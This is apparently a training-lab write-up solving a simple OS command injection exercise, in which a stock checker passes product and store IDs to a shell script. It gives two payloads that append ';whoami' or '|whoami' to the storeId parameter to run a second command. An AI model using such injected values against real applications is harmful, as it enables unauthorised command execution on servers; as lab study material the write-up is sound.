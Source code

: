 # Lab: OS command injection, simple case
## Task
This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.

## Solution
In this lab, the `productID` and `storeID` will be passed to a shell command
```
stockreport.pl <productID> <storeID>
```

To exploit this, we can concatenate the `whoami` command to these parameters:
```
productId=1&storeId=1;whoami
# or
productId=1&storeId=1|whoami
```

First payload:  

![image](https://user-images.githubusercontent.com/44528004/130424642-c5a69dc4-c028-48b2-b41d-96666495cfa3.png)  

Second payload:  

![image](https://user-images.githubusercontent.com/44528004/130424678-28f4a75b-a10d-4ca8-a83c-3fc9ab06c329.png)

> Solved!
